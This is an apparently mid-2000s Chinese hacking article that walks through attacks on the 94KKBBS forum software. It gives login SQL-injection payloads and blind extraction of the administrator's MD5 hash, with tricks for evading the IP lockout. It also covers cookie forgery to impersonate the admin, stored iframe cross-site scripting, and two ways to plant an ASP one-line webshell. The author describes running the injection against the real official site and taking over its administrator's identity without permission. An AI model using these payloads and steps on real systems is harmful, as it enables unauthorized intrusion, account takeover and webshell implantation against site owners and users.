

## 注入漏洞

在看完 94KK 的代码后，我不得不承认 94KKBBS 代码的严谨性，但百密难免有一疏。当我读完“login.asp”中的一段代码后，我发现了整套系统的软肋！有问题的代码如下：

```vb
Sub CheckLogin()
...
UserName=Request.Form("name")
Password=Request.Form("password") '第一关
...
If UserName="" or Password="" Then .GoToErr(6) '第二关
...
If Not (.Fun.Checkname(UserName) OR .Fun.CheckPassword(Password)) then .GoToErr(16) '第三关
If .SafeBuckler(UserName,MyIP,0) Then ... '第四关
Password=MD5(Password) '第五关
Set Rs = .Execute("select top 1 Id,Name,Password,Isdel,...")
LastTime From [KK_User] where name='"&UserName&"' and password='"&Password&"' and (Isdel=0 or Isdel=2)"))
If Rs.Eof then
 .SafeBuckler UserName,MyIP,1
 .GotoErr(9)
Elseif Rs(3)=2 Then
 .GotoErr(78)
......
End Sub
```

为了表述清晰，我在代码后加入了“第×关”的标识。

下面就来分析其流程。先看第一关，“name”和“Password”没经过任何过滤，就 POST 给了“UserName”和“Password”，这一关过得轻松加愉快！在第二关，程序会判断“UserName”或“Password”值是否为空，如空则返回“登录失败”及相关信息，所以通过第二关也不成问题。下面看第三关，其中涉及到了程序自定义的两个函数“Checkname”和“CheckPassword”。我们先看“Checkname”，它在 Inc 目录的 Fun_Cls.asp 中。

```vb
Public Function CheckName(Str)  '名字字符检验
  Checkname=True
  Dim Rep,pass
  Set Rep=New RegExp
  Rep.Global=True
  Rep.IgnoreCase=True
  Rep.Pattern="[\u0009\u0020\u0022\u0028\u002C\u002E\u003A-\u003E\u005B\u005C\u0060\u007C\u007E\u00FF\uE5E5]"
  Set pass=Rep.Execute(Str)
  If pass.count>0 Then CheckName=False
  Set Rep=Nothing
End Function
```

此函数用来检验用户名字符的合法性，当接收到的 `Str` 中出现 `Rep.Pattern` 中定义的字符时，就赋 `CheckName` 的值为假。需要注意其中 0020 是空格的 16 进制，0028 是括号的 16 进制，0027 是单引号的 16 进制。

再来看 `CheckPassword`，同样在 Inc 目录的 `Fun_Cls.asp` 中。

```vb
Public Function CheckPassword(Str)  '密码检验
  Dim pass
  CheckPassword=False
  If Str<>"" Then
    Dim Rep
    Set Rep=New RegExp
    Rep.Global=True
    Rep.IgnoreCase=True
    Rep.Pattern="[^\u4E00-\u9FA5\uFF00-\uFA2D\u0027\u007C]"
    pass=rep.Test(Str)
    Set Rep=nothing
    If Not pass Then CheckPassword=True
  End If
End Function
```

这里和 `UserName` 的过滤方法是一样的，如果出现定义的过滤字符，就给 `CheckPassword` 赋假值。

文中继续分析用户名与密码在逻辑判断中的组合关系，说明在某些输入条件下会导致验证流程进入失败分支（如 `GotoErr(16)`）。

随后介绍第四关验证中 `SafeBuckler` 的限制：按 IP 统计登录错误次数，超过阈值后禁止登录；并分析校园网、网吧、办公室共享出口 IP 时的副作用。

- ADSL 拨号用户，重新拨号更改 IP 地址后可再次登录。
- 校园网/网吧等局域网代理上网环境，可通过更换 HTTP 代理来更改出口 IP。

继续到第五关：该关使用 MD5 对密码加密，但只针对 `Password`，对 `UserName` 无效。

提交参数进入 SQL 语句后，`UserName` 位置采用单引号过滤；文中指出可构造如 `' or '1'='1` 一类字符串实现注入。

实测示例：访问 `http://127.0.0.1/94bbs/login.asp`，用户名输入 `' or 1=1 or ''='`，密码输入 `123`，点击登录后返回信息如图1。



文中指出虽然页面提示成功，但身份显示仍可能是游客；随后改用 `' or 1=2 or ''='` 进行对比测试，返回结果见图2。



两次返回信息不同：`1=1` 显示“登录成功”，`1=2` 显示“登录失败”，据此判断存在注入点。

接着测试 SQL 语句可执行性，例如通过 `or 16=(select len(password) from [kk_user] where name='admin') or '1'='1'` 判断管理员密码长度为 16 位。

再通过 `asc(mid(password,1,1))` 等条件语句逐位猜测密码字符，文中示例以 ASCII 值 `97` 为界进行判断。

> 94KKBBS的MD5是由数字和小写字母组成的。数字0-9的ASCII值范围是48-57，字符a-z的ASCII值范围是97-122。判断出数字或字符后，再利用逐步折半的方法，就能猜出第一位的ASCII值了。

接下来我们猜第二位，先将 `mid(password,1,1)` 改为 `mid(password,2,1)`，然后按第一步的方法进行就可以了。

> 在猜测过程中，如错误登录超过7次，就会被禁止登录，我们可以采用第四关介绍的两种方法进行破解。

在本地测试成功后，我开始有些蠢蠢欲动了。不知官方站点是否存在此漏洞，打开官方的BBS，注册了一个新用户，然后打开“管理团队”，其中有3个站长。通过查看论坛的帖子，觉得“随冰”应该是主站长，就猜他的密码吧！用了将近一个小时的时间，这期间重启了10次ADSL，终于猜出94KKbbs官方管理员“随冰”的MD5。而此时的我，只想说一个字，累！这年头，注入也成了体力活！

## 跨站漏洞

在本地测试时，发现94KK还有跨站漏洞。现在有了随冰的MD5值，我正好可以测试一下官方是否也存在跨站漏洞。先用我的用户登录，需要注意一点，在登录时，“Cookie选项”要选择为“保存一天”。登录成功后，打开Iecv15，选择其中的 `www.94kk.com`，如图3所示。



点击下方的94KKbbs，所显示的Cookie内容如下：

```text
CookiesDate=1&MyPassword=445a5f734271a00b&
LastTime=2006-4-12 22:22:14&MyHidden=1&
MyName=jm&MyID=6905
```

我注意到其中除了用户名和密码外，还有一项MyID，其值6905是我的注册ID。如果用随冰的号登录，就需要知道随冰的ID值。在论坛中转了几圈，也没找到显示用户ID值的地方。看来只能采取猜测的方法了，仍用登录窗口的注入漏洞，猜出随冰的ID为17。接下来，在“94KKbbs”的Cookies条上点右键，选择“编辑Cookie”，将其中的值修改为：

`CookiesDate=1&MyPassword=2**************9&LastTime=2006-4-12 22:22:14&MyHidden=1&MyName=随冰&MyID=17`

然后再新开一个IE窗口，在其中输入 `www.94kk.com/bbs`，如图4所示。现在我就已经变身为随冰了，有了这个名片，自然就可以测试跨站漏洞了……



### 1. SMS跨站

此跨站漏洞是寄附在SMS消息中的，当用户打开含有跨站代码的消息时，就触发了跨站漏洞。为了可以直接看到效果，下面我用的是自己注册的用户进行。

先用自己的账户登录，找一个帖子进行回复，然后再用Cookie欺骗的方式，以随冰的身份登录，对该帖进行评价。评价内容随意填写，主要是启用“留言通知帖作者”，在留言附加信息中输入如下语句：

“谢谢你的支持，继续努力！`<iframe src=http://www.baidu.com width=100 height=100></iframe>`”，如图5所示。



为了让大家看到跨站效果，我设置的Width及Height均不为0。接着退出论坛，用我的账户登录，这时听到音箱中传来一个动听的声音：“您有新的消息，请注意查收。”一般听到这种消息，大家都会去查看的吧？点击上方的消息链接，百度赫然就在眼前。试想如果前面的代码长宽设置均为0，谁会想到这里隐藏了一个陷阱呢？如图6所示。



### 2. 帮派跨站

老师说，拉帮结派是不对的，因为帮派就像泥潭一样，一旦陷入就很难自拔。所以我们拉帮派的时候一定要慎重。比如94KKBBS中的帮派，就有跨站漏洞。

建立帮派需要两个条件：一要积分达到20以上，二要金币在10000以上。我是无产阶级，既没有积分也没有钱，但我会注入。先打开“用户列表”看看谁符合这两个条件，然后猜出那人账号的MD5，用Cookie欺骗登录就可以建立帮派了。还好“随水”的积分在20以上，并且钱也很多，具有创建帮派的条件。不过随水已建立了一个帮派，那我就修改其内容实现跨站。打开“随水”设置的帮派，在“帮派宗旨”中加入上面的跨站代码：

```html
<iframe src=http://www.baidu.com width=100 height=100></iframe>
```

再次查看“帮派”，如图7所示，怕了吧？



### 3. 公告跨站

如果说SMS跨站是针对某个用户，帮派跨站是针对不知名用户，那么下面的跨站所针对的就是管理员本身！打开一个没有发布过公告的版块，选择右侧的“发布公告”，在“公告标题”栏输入：

```html
欢迎<iframe src=http://www.baidu.com width=100 height=100></iframe>
```

随便输入些公告内容，然后提交即可。此跨站没有前面两个的隐蔽性强，相反却很招眼，如图8所示。



在该版块的循环公告中显示的是源代码，打开公告窗口，显示的也是源代码，根本看不到跨站的效果。不过这正是我们的目的，管理员看到此公告，一定会来删除。当其打开前台或后台的公告管理窗口，如图9所示。



跨站出现了，仔细看一下该公告，你会发现它居然没有“修改”和“删除”链接（因为是建立在没有发布过公告版块的缘故）！如果长宽都为0，恐怕管理员也会很纳闷。

## 后台提权漏洞

在前台玩过跨站游戏后，如果管理员的MD5设置得较弱，那我们就可以将权限提升至WebShell。注：下面的提权方法是在本机测试的。

### 1. 执行SQL语句

94KK的数据库默认扩展名为“ASP”，为什么使用ASP格式的数据库呢？原因就是“KK_NotDownLoad”表中加入了防下载字段，该字段的类型是OLE对象，其值是16进制的“<%”。这样则使我们知道了数据库名称，也不能下载或打开。但成也萧何败也萧何，下面大家就来看看它是如何帮助我们提升权限的吧！

打开后台的“执行SQL语句”，先输入其默认的执行密码“admin”，然后在指令中输入如下语句：

```sql
update KK_NotDownLoad set notdown=0x3C2565786563757465287265717565737428226C222929253E
```

其中的 `0x3C2565786563757465287265717565737428226C222929253E` 是一句话木马 `<%execute(request("l"))%>` 的16进制表达式。此语句的意思是用这些字符更新“KK_NotDownLoad”表中的Notdown字段。执行成功后，用IE打开94KKBBS的ASP数据库94kk.asp，如图10所示。



错误信息是“类型不匹配：‘execute’”，说明一句话木马寄身成功。只要用一句话木马客户端连接该ASP，写入海洋、老兵之类的超强ASP木马，就具有WebShell权限了。

### 2. 数据库备份

如果SQL的执行密码进行了更改，那“执行SQL语句”这条路就很难走了，因为此密码是经过MD5加密的……不过此路不通，我们还有数据库备份与恢复的漏洞可以利用。

首先进入“备份数据库”版块，对当前数据库备份，备份数据库名称为“Bak_94kk.mdb”，然后下载此Mdb格式的数据库。

再用Access新建一个空的数据库“db1.mdb”，然后打开下载的数据库“Bak_94kk.mdb”，复制其中的“KK_Admin”“KK_Log”“KK_User”和“KK_Config”四个表到“db1.mdb”中。注意表名要一致，如“KK_User”中有大量用户，可删除 `kk_user` 中的一些无关用户，减少数据库的体积。接着在“db1.mdb”中新建一个表，表名为“asp”，其中有两个字段：“a”字段类型为自动编号，设为主键；“b”的类型为文本，其内容为 `<% execute request("l")%>`，如图11所示。

```asp
<% execute request("l")%>
```



在后台“上传文件类型”中加入Mdb类型，然后在前台上传db1.mdb。上传后返回的信息是“[UPLOAD=mdb,...]...mdb[/UPLOAD]”；在后台“信息设置”中查看到“文件上传”目录是“UploadFile/TopicFile”，那么该Mdb的地址就是“UploadFile/TopicFile/200641223392310.mdb”。打开恢复数据库功能，在备份数据库路径中输入该路径。

当前数据库默认是“Data/94KK.asp”。待恢复成功后，用IE打开此 Data/94KK.asp，错误信息如下：

> 错误类型：  
> Microsoft VBScript 运行时错误 (0x800A000D)  
> 类型不匹配: 'execute'  
> /94bbs/data/94kk.asp，第237行

看来一句话木马寄身成功。不要光顾着高兴了，现在的论坛还处于瘫痪状态，我们得抓紧时间恢复才行。恢复的步骤如下：

- A. 选择“备份数据库”，将当前数据库备份为一个其他名称的ASP文件，如“Data_Backup\jmdcw.asp”。
- B. 选择“恢复数据库”，在备份数据库名称中输入第一步中的备份路径“Data_Backup\Bak_94kk.mdb”。

重新打开论坛，OK，数据库恢复为正常状态了。一句话木马的寄身文件也改为“Data_Backup\jmdcw.asp”了。接下来就可以安心地用一句话木马客户端连接此ASP文件，继而提升自身的权限了。

适合读者：入侵爱好者，脚本爱好者  
前置知识：无

